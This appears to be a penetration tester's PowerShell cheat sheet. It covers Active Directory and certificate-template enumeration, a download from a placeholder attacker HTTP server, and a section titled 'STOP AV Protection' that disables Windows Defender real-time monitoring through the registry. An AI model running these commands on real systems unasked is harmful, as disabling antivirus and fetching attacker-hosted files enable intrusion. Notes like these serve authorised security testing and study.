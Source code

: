 
Common utilities:
----
Download file from web server, invoke web request:
#powershell #powershell-download #powershell-wget #iwr #invoke-web-request

```powershell
IWR -uri $ATTACKER_HTTP/$FILE -Outfile $FILE
```

Get list  of all available modules:
---
#windows #modules #powershell 

```powershell
Get-Module -ListAvailable
```

Import psm1 module as user:
---
#import #windows #powershell 

```powershell
Import-Module .\$MODULE
```

AD Enum and stuff
---
#windows #powershell #ad #users #enum 

```powershell
Import-Module ActiveDirectory
cd AD:
$acl = Get-Acl 'CN=User,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=$DOMAIN,DC=$AD_DOMAIN_EXT'
$acl.Access.Count
$acl.Access | where IdentityReference -match 'Domain Users'
```

Get User's Groups
---
#user #groups #windows #powershell 

```powershell
(Get-ADUser $USER –Properties MemberOf).MemberOf
```

or

```powershell
(New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(samAccountName=$($env:username)))")).FindOne().GetDirectoryEntry().memberOf
```

using "Get-ADPrincipalGroupMembership":

```powershell
Import-Module ActiveDirectory
Get-ADPrincipalGroupMembership -Identity $USER
```

or

```powershell
Get-ADPrincipalGroupMembership -Identity $USER | Sort-Object name | Format-Table -Expand name
```

Get AD Certificate configuration from the registry:
---
#enum #certificate #ad-template 

```powershell
reg query $DOMAIN/HKLM/SYSTEM/CurrentControlSet/Services/CertSvc/Configuration/%3c$CA_NAME%3e
```

STOP AV Protection
---
#anti-virus #protection #stop #windows #powershell 


```powershell
Set-MpPreference -DisableRealtimeMonitoring $true  
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender"-Name DisableAntiSpyware -Value 1-PropertyType DWORD -Force
```

or prepend command with:

```powershell
powershell -command $CMD
```